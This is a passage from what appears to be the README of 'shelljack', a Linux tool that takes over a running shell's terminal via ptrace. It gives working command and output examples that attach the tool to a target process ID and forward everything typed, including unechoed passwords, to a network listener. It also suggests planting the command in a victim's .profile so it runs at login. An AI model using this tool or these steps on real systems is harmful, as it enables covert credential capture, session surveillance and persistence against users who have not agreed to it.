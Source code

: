 Now, launch _shelljack_ against the target shell:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack -n localhost:9999 19716

That was it! If we go back to the listener, we will now see all of the I/O come through the listener as it is typed into the target shell. For further evidence of this, lets examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It is now in place to collect the traffic and happily forward you a copy of everything it sees, including input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal at all. (e.g. passwords)

Also note, _shelljack_ was designed with the ability to attack the shell that launches it. This makes it ideal to call from the target's login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [<i>ptrace_do</i>](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping of Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 
